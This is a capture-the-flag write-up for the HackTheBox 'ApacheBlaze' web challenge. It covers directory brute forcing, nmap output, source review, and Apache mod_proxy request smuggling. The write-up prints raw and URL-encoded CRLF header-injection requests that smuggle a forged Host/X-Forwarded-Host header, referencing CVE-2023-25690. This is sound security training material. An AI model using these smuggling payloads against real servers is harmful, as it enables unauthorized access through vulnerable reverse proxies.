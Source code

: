 # Solve HTBank 
#### https://app.hackthebox.com/challenges/ApacheBlaze

![alt text](image.png)

##### By directory brute force with dirsearech
`dirsearch -u http://94.237.58.211:30916/ -x 404,403` 
[05:53:25] 200 -  360B  - /assets/                                          
[05:53:25] 301 -  242B  - /assets  ->  http://94.237.58.211:30916/assets/   
[05:53:27] 200 -    1KB - /cgi-bin/test-cgi                                 
[05:53:27] 200 -  820B  - /cgi-bin/printenv

#### /assets page
![alt text](image-1.png)
#### /cgi-bin/test-cgi page
![alt text](image-2.png)
#### /cgi-bin/printenv page
![alt text](image-3.png)

##### nmap scan 

```
22/tcp    open  ssh         OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 91:fb:f2:1e:09:9a:a3:10:c7:f3:18:3f:18:9d:4a:76 (RSA)
|   256 15:53:99:6a:83:03:96:0b:b7:82:44:7d:34:f0:7d:69 (ECDSA)
|_  256 46:2f:3e:5e:ee:65:be:17:7c:3b:51:02:5c:51:83:06 (ED25519)

30916/tcp open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache
|_http-title: ApacheBlaze
```
## Review the sorce code

### Analyze fetchAPI.js
*you can find the file in [fetchAPI.js](src/challenge/frontend/src/assets/js/fetchAPI.js)*

The **fetchAPI.js** code can be broken down as follows:

1. The code waits for the document to be ready using `$(document).ready(function() {...})`.

2. It attaches a click event handler to links (`<a>`) inside elements with the class "game" using `$(".game a").click(function(event) {...})`.

3. Inside the click event handler:
   - `event.preventDefault()` **prevents the default behavior** of the clicked link, which is typically navigating to a new page.

   - `var gameName = $(this).attr("div")` retrieves the value of the "div" attribute of the clicked link. 
     - `$(this)` refers to the clicked link.
     - `.attr("div")` is used to get the value of the "div" attribute.

4. An AJAX request is made to the "/api/games/" endpoint with the obtained `gameName` using `$.ajax({...})`.

5. The `success` callback function handles a successful response by updating the content of the element with ID "gameplayresults" with the received message.

6. The `error` callback function handles an error in fetching API data by updating the content of the same element with an error message.

### Analyze app.py
*you can find the file in [app.py](src/challenge/backend/src/app.py)*

### Notice that we find a suspicious function in the backend code

``` python
elif game == 'click_topia':
        if request.headers.get('X-Forwarded-Host') == 'dev.apacheblaze.local':
            return jsonify({
                'message': f'{app.config["FLAG"]}'
            }), 200

```
The code checks if the user choose `click_topia` Game and the request has `X-Forwarded-Host` header with value `dev.apacheblaze.local` it return the flag as a Json.

#### HTTP header manipulation with `X-Forwarded-Host`
![alt text](image-4.png)
We got 408 Request Timeout.

##### Try POST request
![alt text](image-5.png)
We got 408 Request Timeout.
*Note from code `@app.route('/', methods=['GET'])` ONLY `GET` method is allowed*

### Analyze httpd.conf (This Apache HTTP Server configuration)
*you can find the file in [httpd.conf](src/conf/httpd.conf)*

This configuration sets up a reverse proxy on port `1337`, forwarding requests to a backend server on port `8080`, which is load-balanced across two backend servers (`8081` and `8082`). The rewrite rule in the first virtual host handles requests to `/api/games/` by forwarding them to the backend server with the appropriate query parameter. The load balancer in the second virtual host distributes requests among the specified backend servers.


### Mod Proxy module
`mod_proxy` is an Apache module that provides support for proxying requests. It enables the Apache HTTP Server to act as a **gateway** or **reverse proxy** (a reverse proxy manages incoming requests from clients and forwards them to backend servers). This module is often used to forward requests from Apache to another web server, application server, or backend server.

## Try to Http request smuggling via header injection
### Normal request
```
GET /api/games/click_topia HTTP/1.1
Host: 94.237.54.48:55239
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.54.48:55239/

```
we can hide a second request in the first we sent to the target (with the `\r\n\r` splitting method). That enable us to send the request directly from the **reverse proxy**.
### Try to inject with X-Forwarded-Host
```
GET /api/games/click_topia HTTP/1.1
X-Forwarded-Host: dev.apacheblaze.local


GET / HTTP/1.1
Host: 94.237.54.48:55239
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.54.48:55239/
```
### Encoded as 
```
GET /api/games/click_topia%20HTTP/1.1%0d%0aX-Forwarded-Host:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/ HTTP/1.1
Host: 94.237.54.48:55239
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.54.48:55239/
```
Note: `%0A` for newline `\n` and `%0D` for carriage return `\r`
So `\r\n ` ->  `%0d%0a` `\r\n\r`  ->  `%0d%0a%0d`

![alt text](image-6.png)
The server Can't understand X-Forwarded-Host header 
### Try to inject with X-Forwarded-Host

```
GET /api/games/click_topia HTTP/1.1
X-Forwarded-Host: dev.apacheblaze.local


GET / HTTP/1.1
Host: 94.237.54.48:55239
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.54.48:55239/
```
### Encoded as 
```
GET /api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/ HTTP/1.1
Host: 94.237.54.48:55239
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.54.48:55239/
```

![alt text](image-7.png)
### Resorces
[HTTP Request Smuggling attack ](https://portswigger.net/web-security/request-smuggling)
[Http request smuggling via header injection](https://github.com/dhmosfunk/CVE-2023-25690-POC/tree/main#internal-http-request-smuggling-via-header-injection)
[CVE 2023 25690 POC](https://github.com/dhmosfunk/CVE-2023-25690-POC)
[URL encoding of newline](https://stackoverflow.com/questions/3871729/transmitting-newline-character-n)


>Find More on ==> github.com/MedhatHassan
